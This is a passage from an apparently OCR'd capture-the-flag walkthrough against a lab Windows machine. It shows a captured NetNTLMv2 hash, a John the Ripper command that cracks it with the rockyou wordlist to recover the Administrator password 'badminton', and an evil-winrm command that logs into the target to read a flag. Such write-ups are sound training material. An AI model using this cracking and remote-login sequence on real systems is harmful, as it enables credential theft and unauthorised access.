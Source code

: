 004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D  
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926  
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630  
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >  
hash.txt  
-w : wordlist to use for cracking the hash  
john -w=/usr/share/wordlists/rockyou.txt hash.txt

john will try each password from the given password list, encrypting the challenge with that password. If  
the result matches the response, then it knows it found the correct password. In this case, the password of  
the Administrator account has been successfully cracked.  
WinRM  
We'll connect to the WinRM service on the target and try to get a session. Because PowerShell isn't installed  
on Linux by default, we'll use a tool called Evil-WinRM which is made for this kind of scenario.  
We can find the flag under C:\Users\mike\Desktop\flag.txt .  
password : badminton  
evil-winrm -i 10.129.136.91 -u administrator -p badminton

[](https://github.com/Hackplayers/evil-winrm "https://github.com/Hackplayers/evil-winrm")

Congratulations! You can now use the type command to view the contents of the flag.txt